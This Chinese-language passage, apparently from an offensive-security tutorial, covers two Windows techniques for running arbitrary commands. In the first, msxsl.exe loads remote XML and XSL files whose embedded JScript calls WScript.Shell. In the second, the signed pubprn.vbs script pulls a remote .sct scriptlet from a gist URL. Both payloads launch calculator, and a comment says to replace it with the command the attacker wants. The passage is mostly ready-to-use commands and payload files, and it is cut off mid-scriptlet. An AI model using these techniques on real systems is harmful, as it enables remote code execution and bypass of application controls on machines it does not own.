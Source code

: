 

### 14.MSXSL.EXE

msxsl.exe是微软用于命令行下处理XSL的一个程序，所以通过他，我们可以执行JavaScript进而执行系统命令。

下载地址为：https://www.microsoft.com/en-us/download/details.aspx?id=21714

msxsl.exe 需要接受两个文件，XML及XSL文件，可以远程加载，具体方式如下：

```bash
msxsl http://192.168.28.128/scripts/demo.xml http://192.168.28.128/scripts/exec.xsl
```

demo.xml

```xml
<?xml version="1.0"?> 
<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>
<customers> 
    <customer> 
 		<name>Microsoft</name>
    </customer>
</customers>
```

exec.xsl（这里以弹计算器为例）

```xml
<?xml version='1.0'?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:user="http://mycompany.com/mynamespace">
<msxsl:script language="JScript" implements-prefix="user"> 
    function xml(nodelist) { var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");   # 这里修改为我们要执行的命令
    return nodelist.nextNode().xml; }
</msxsl:script> 
<xsl:template match="/"> 
<xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```





### 15.pubprn.vbs

在Windows 7以上版本存在一个名为`PubPrn.vbs`的微软已签名WSH脚本，其位于`C:\Windows\System32\Printing_Admin_Scripts\en-US`，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给`GetObject()`

```bash
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/xps/64acdkpodsk4566b04a/raw/a006a4 7e4075785016a62f7e5170ef36f5247cdb/test.sct
```

test.sct（和13一样，这里以弹计算器为例）

```xml
<?XML version="1.0"?> 
<scriptlet> 
<registration 
              description="Bandit" 
              progid="Bandit" 
              version="1.00" 
              classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}" 				                 remotable="true" >
</registration> 
<script language="JScript"> 
<![CDATA[ 
			var r = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
```